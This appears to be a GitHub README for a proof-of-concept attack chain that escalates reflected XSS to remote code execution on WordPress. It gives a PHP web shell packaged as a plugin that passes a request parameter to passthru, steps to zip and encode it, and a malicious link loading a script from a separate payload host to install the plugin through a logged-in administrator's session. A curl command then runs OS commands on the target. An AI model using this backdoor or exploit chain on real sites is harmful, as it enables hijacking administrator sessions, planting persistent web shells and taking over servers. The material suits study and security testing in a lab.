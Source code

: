 # [RCE] Install Plugin

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps
1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `WP_PoC.php`

    (`WP_PoC.php`)

    ```
    <?php
    /**
     * Plugin Name: WP RCE PoC - Install Plugin
     * Version: 1.0.0
     * Author: WP Admin
     * Author URI: https://localhost
     * License: GPL2
     */
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create WordPress plugin

    ```
    zip WP_PoC.zip WP_PoC.php
    ```

3. [create backdoored CMS module] base64-encode generated plugin file (**NOTE**: avoids encoding issues)

    ```
    cat WP_PoC.zip | base64 -w0 > WP_PoC.txt
    ```

4. [setup exploit] change payload variable values (`installPluginWP.js`)

    `pluginURL` - URL of WordPress plugin (containing backdoor) to be installed on target site

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

5. [setup exploit] setup web server (to serve the payload/plugin)

6. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

7. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/installPluginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

8. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.10/wp-content/plugins/WP_PoC/WP_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on name of installed module

9. [uninstall module] uninstall module via GUI

    *WordPress ➔ Plugins ➔ Installed Plugins ➔ [WP RCE PoC - Install Plugin] Delete ➔ OK*

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 8 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/InstallPlugin/screenshots/WordPress_-_install_plugin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/InstallPlugin/screenshots/WordPress_-_install_plugin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/e2a5fa16-2636-43f0-9761-f1c22b479263
